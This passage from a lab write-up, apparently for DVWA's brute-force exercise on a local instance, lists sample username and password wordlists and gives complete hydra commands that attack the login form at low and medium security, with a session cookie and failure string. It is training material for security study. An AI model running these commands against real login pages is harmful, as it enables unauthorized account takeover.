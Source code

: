 	```shell
	cat usernames.txt
	root
	peter
	kevin
	harris
	maria
	andrew
	mike
	sridevi
	pavithra
	admin

	cat passwords.txt
	1234
	123456
	pass
	password123
	qwerty
	qwerty123456
	12345
	1234567890
	qwertyasdfg
	password
	```

3. Build a `hydra` command using the above info:

	```shell
	hydra -L usernames.txt -P passwords.txt 127.0.0.1 -s 42001 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=ud36qu65oddvmncfg54n515nhn; security=low:F=Username and/or password incorrect." -t 30
	```

	![](low_hydra.png)

	![](low_success.png)

## Security: Medium

1. Almost identical `hydra` command as before, just change `security=low` to `security=medium`:

	```shell
	hydra -L usernames.txt -P passwords.txt 127.0.0.1 -s 42001 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=ud36qu65oddvmncfg54n515nhn; security=medium:F=Username and/or password incorrect." -t 30
	```

	![](medium_hydra.png)

	> Why the false positive?

	> The command took a bit longer to complete, as a `sleep(2)` function was added to the source code.
